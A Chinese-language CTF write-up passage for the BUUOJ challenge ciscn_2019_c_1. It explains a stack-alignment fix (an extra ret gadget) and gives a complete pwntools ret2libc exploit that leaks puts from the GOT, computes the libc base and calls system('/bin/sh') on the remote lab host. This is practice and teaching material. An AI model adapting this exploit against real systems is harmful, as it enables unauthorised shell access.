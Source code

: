 刚写好发现调用system函数会发生错误

```
timeout: the monitored command dumped core
```

看了[Ex师傅的文章](http://blog.eonew.cn/archives/958)才知道调用system函数的时候栈没有0x10对齐，所以需要在payload中多加了一个`ret`

加了`ret`后本地能getshell了 远程还是不行 

后来在buuoj上下载libc-2.27.so后修改的exp

```python
#!/usr/bin/env python2
# -*- coding: utf-8 -*-

from pwn import *
context.log_level='debug'

elf = ELF('./ciscn_2019_c_1')
#p = process('./ciscn_2019_c_1')
p = remote("node3.buuoj.cn", 25449)
#gdb.attach(p,'b *0x400bb6\nb* 0x400AE7')
libc=ELF("./libc-2.27.so")

poprdi=0x400c83
puts=elf.plt['puts']
puts_got=elf.got['puts']

p.recv(0x217)
p.sendline('1')
p.recvuntil('\n')
payload = 'a'*80+'b'*8+p64(poprdi)+p64(puts_got)+p64(puts)
payload += p64(0x400790)

p.sendline(payload)
print p.recvuntil('\n')
print p.recvuntil('\n')

puts=u64(p.recv(6).ljust(8,'\x00'))
print hex(puts)

libcbase=puts-libc.sym['puts']
system_addr=libcbase+libc.sym['system']
bin_sh=libcbase+libc.search("/bin/sh\x00").next()
payload = 'a'*88+p64(0x4006b9)+p64(poprdi)+p64(bin_sh)+p64(system_addr)
p.recv(0x217)
p.sendline('1')
p.recvuntil('\n')
p.sendline(payload)

p.interactive()
```

远程成功getshell，之前的exp不能getshell可能是由于本地libc与靶机libc不同的原因（虽然都是ubuntu18）
